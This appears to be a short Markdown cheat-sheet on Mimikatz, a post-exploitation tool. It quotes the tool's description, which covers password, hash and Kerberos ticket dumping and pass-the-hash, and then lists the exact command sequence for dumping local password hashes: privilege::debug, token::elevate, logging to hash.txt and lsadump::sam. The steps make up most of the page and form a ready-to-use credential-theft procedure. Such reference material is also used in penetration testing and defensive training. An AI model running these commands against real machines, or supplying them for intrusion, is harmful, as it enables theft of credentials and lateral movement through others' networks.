 **Mimikatz**
===========


Abstract
--------

> *Is a leading post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets. Other useful attacks it enables are pass-the-hash, pass-the-ticket or building Golden Kerberos tickets. This makes post-exploitation lateral movement within a network easy for attackers.*
 
Source: <a href='https://github.com/gentilkiwi/mimikatz' target='_blank'>Mimikatz</a>

Examples 
--------

**Note:** Some of the examples below presume files and paths that might not match your particular system and tool installation.

The following examples are after the download and run Mimikatz:


**Dumping the hashes with Mimikatz and LSAdump**

Run Mimikatz 
```bash 
$ Mimikatz.exe
```
```bash
$ privilege::debug
```
```bash
$ token::elevate
```
Run “log hash.txt” so that your next command will output to a txt file
```bash
log hash.txt
```
```bash
$ lsadump::sam 
```
Exit from Mimikatz...
```bash
$ exit
```


